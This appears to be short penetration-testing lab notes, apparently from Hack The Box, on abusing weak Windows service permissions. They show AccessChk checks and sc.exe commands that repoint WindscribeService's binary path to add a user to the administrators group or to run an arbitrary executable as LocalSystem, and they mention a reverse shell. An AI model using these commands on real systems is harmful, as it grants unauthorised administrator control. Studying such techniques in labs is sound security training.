


Weak Service Permissions
---



We use AccessChk to check for permissions on the service
```
accesschk.exe /accepteula -quvcw WindscribeService
```



Authenticated users have SERVICE_ALL_ACCESS which gives us full control. We can change the binary path and use it to add ourselves to the administrator group, we can run any command including a reverse shell binary.

```
sc.exe config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```
or
```
sc config <name_ service> binPath="C:\Users\files\ok.exe" obj= LocalSystem  
sc stop <service_name>  
sc query <service_name>  
sc start <service_name>
```

```
sc.exe stop WindscribeService
sc.exe start WindscribeService
```

![[Pasted image 20260625182116.png]]
![[Pasted image 20260625182131.png]]
![[Pasted image 20260625182158.png]]
